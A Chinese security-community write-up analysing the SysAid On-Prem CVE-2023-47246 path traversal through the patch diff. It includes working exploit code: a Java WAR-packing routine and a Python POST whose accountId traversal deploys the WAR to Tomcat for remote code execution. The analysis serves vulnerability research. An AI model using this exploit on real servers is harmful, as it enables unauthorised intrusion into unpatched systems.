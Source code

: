 

# 奇安信攻防社区 -【Web】SysAid On-Prem Software CVE-2023-47246 目录穿越 RCE

### 【Web】SysAid On-Prem Software CVE-2023-47246 目录穿越 RCE

2023 年 11 月 8 日，SysAid 发布了一份公告，表示他们的本地服务器软件存在先前未公开的漏洞，并且发现了公开的野外利用，本文将对该漏洞进行分析，并给出利用方式。

# 公告

[https://www.sysaid.com/blog/service-desk/on-premise-software-security-vulnerability-notification](https://www.sysaid.com/blog/service-desk/on-premise-software-security-vulnerability-notification)

说是有一个目录穿越可以传 war 包，导致 rce 了。

# 下载

[https://cdn3.sysaid.com/OnPremInstall/23.3.36/SysAidServer64.exe](https://cdn3.sysaid.com/OnPremInstall/23.3.36/SysAidServer64.exe)

[https://cdn3.sysaid.com/OnPremInstall/23.3.35/SysAidServer64.exe](https://cdn3.sysaid.com/OnPremInstall/23.3.35/SysAidServer64.exe)

安装需要试用证书，这个自己想办法，我没有，只是看了看 diff。

# 补丁 diff

com.ilient.server.UserEntry#doPost

![image.png](assets/1700812283-3434bdb38832daf2f941ec92c15d0e87.png)

修了目录穿越

![image.png](assets/1700812283-4369a5a7b13a776be945a24b939a7267.png)

var4 来自 accountId 参数，在 a 函数中存在目录穿越

![image.png](assets/1700812283-1d834447939988b17d62548608095749.png)

最终会被拼接到文件路径中，并且写入`InflaterInputStream var29 = new InflaterInputStream(var1.getInputStream());`数据流

![image.png](assets/1700812283-9766f89899927dd49e92ae7cd302c5e4.png)

但是这里文件名是时间戳.zip，继续往后看还有一个 a 函数

![image.png](assets/1700812283-5b1082c11e41c05770dbdf1d868e929e.png)

这里 var1 是 accountid，解压时间戳.zip，var1 可以跨目录，虽然判断了目录穿越`var10.getCanonicalPath().startsWith(var5 + File.separator)`，但是 var1 本来就是目录穿越的，所以判断没用。

![image.png](assets/1700812283-f168aaf1a85bb6f6eb09e568bcb0f076.png)

这样就能自定义 war 包名字了，配合 tomcat 自动部署 rce。

![image.png](assets/1700812283-fbbc6af1b0f8e446207e683bfe7ad959.png)

# 构造 exp

实际利用发现需要绕过几个点

![image.png](assets/1700812283-8a5c3d629c40270d65e5fb53b1aefec8.png)

isLdapSupport 会执行 sql 判断`count(ldap_id)>1`

![image.png](assets/1700812283-c268e22dc241e827315231956d48cb15.png)

最终是拼接 accountid 当作数据库名，然后查询判断`count(ldap_id)>1`

![image.png](assets/1700812283-eaec1c7c9ff2dbb91f9f1b1da8dbdfdd.png)

这里需要手动配置下后台（所以这个洞是非默认配置！！！）

![image.png](assets/1700812283-4276a083dd98c81388adb5e80c399d69.png)

默认数据库名是 ilient

![image.png](assets/1700812283-406faa0480fa8403a03d1650bdcb5a55.png)

另外就是 war 包构造，需要用 Deflater 压缩一下

```java
import org.springframework.util.StreamUtils;

import java.io.ByteArrayOutputStream;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.util.zip.Deflater;
import java.util.zip.ZipEntry;
import java.util.zip.ZipOutputStream;

public class Main {
    public static void main(String[] args) throws IOException {
        FileOutputStream fileOutputStream = new FileOutputStream("1.zip");
        ZipOutputStream zipOutputStream = new ZipOutputStream(fileOutputStream);
        zipOutputStream.putNextEntry(new ZipEntry("haha.war"));
        zipOutputStream.write(StreamUtils.copyToByteArray(new FileInputStream("C:\\Users\\asd\\Desktop\\war\\w.war")));
        zipOutputStream.closeEntry();
        zipOutputStream.flush();
        zipOutputStream.finish();

        Deflater deflater = new Deflater();
        FileInputStream fileInputStream = new FileInputStream("1.zip");
        byte[] data = StreamUtils.copyToByteArray(fileInputStream);
        deflater.setInput(data);
        deflater.finish();
        byte[] output;
        ByteArrayOutputStream bos = new ByteArrayOutputStream(data.length);
        try {
            byte[] buf = new byte[1024];
            while (!deflater.finished()) {
                int i = deflater.deflate(buf);
                bos.write(buf, 0, i);
            }
            output = bos.toByteArray();
        } catch (Exception e) {
            output = data;
            e.printStackTrace();
        } finally {
            bos.close();
        }
        deflater.end();

        new FileOutputStream("1.dat").write(output);
    }
}
```

```python
import requests

proxy = {
'http':'http://localhost:8080'
}
headers = {
'Content-Type':'application/octet-stream'
}
r = requests.post('http://172.16.1.237:8080/userentry?accountId=ilient/../../../../tomcat/webapps&symbolName=LDAP_REFRESH_',headers=headers,data=open('1.dat','rb'),proxies=proxy)
```

python 发包就能部署 war 包了。

![image.png](assets/1700812283-de62e90e3a3b8f2ad7b946820c3960ce.png)

# 总结

和@r4v3zn 折腾了两三天才实现完整的构造，主要是卡在没许可证上了。装环境 2 小时，rce2 分钟。
